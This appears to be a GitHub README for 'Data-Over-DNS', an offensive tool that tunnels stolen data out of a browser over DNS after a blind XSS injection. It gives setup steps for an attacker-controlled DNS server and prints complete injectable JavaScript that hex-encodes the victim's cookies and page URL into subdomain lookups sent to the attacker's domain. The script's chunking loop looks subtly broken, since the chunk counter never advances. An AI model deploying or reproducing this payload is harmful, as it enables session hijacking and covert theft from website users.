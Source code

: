 # Data-Over-DNS
This tool can be used for tunnelling data over DNS from webpage when the below website code has been injected as part of a BlindXSS attack.

To use this tool you will need a domain name and be able to update DNS records. 
You will need to create a subdomain domain NS record pointing to your own computer or cloud instance.

#DNS Server

Run the dns server with "sudo node DoDNS.js"
//sudo is required to bind to port 53


#Website Code

    <script>
        function dataoOverDNS( domain, file, data ){
            //domain = Your subdomain which is hosting the DoDNS.js node
            //file = A random file name you want built inside the image element
            //data = the data object which is to be transported over DNS
            
            //random_str = create a random string to differentiate between requests.
            var random_str = Math.random().toString(36).substring(2, 6) + Math.random().toString(36).substring(2, 6);
            //convert object to JSON
            var data = JSON.stringify( data );
            var hexstr = "";
            //convert JSON object byte by byte into a hex string
            for (var i = 0; i < data.length; i++) { hexstr += data.charCodeAt(i).toString(16).padStart(2, '0'); }
            //split hex string into 62 byte chunks inside subdomains
            hexstr_sp = hexstr.match(/.{1,62}/g);
            var packets = Math.ceil( hexstr_sp.length / 3 );
            var packet = 0;
            //split hexstring into seperate packets to avoid hitting max length
            for (var i = 0; i < packets; i++) {
                subs = [];
                //fill subdomains with data
                for( i2=0;i2<3;i2++) { subs.push(  (hexstr_sp.hasOwnProperty(packet)) ? hexstr_sp[packet] : "00" ); }
                //create image element to add to webpage to force the victim computer to make a DNS Request
                var oImg = document.createElement("img");
                oImg.setAttribute('src', "https://" + subs[0] + "." + subs[1] + "." + subs[2] + "." + ( i + 1 ).toString(16).padStart(4, '0') + packets.toString(16).padStart(4, '0') + "." + random_str + "." + domain + "/" + file );
                oImg.setAttribute('height', '1px');
                oImg.setAttribute('width', '1px');
                document.body.appendChild(oImg);
            }
        }
        dataoOverDNS('ns.yourdomain.com','randomfile.jpg', { "location" : window.location.href, "cookie" : document.cookie } );
    </script>


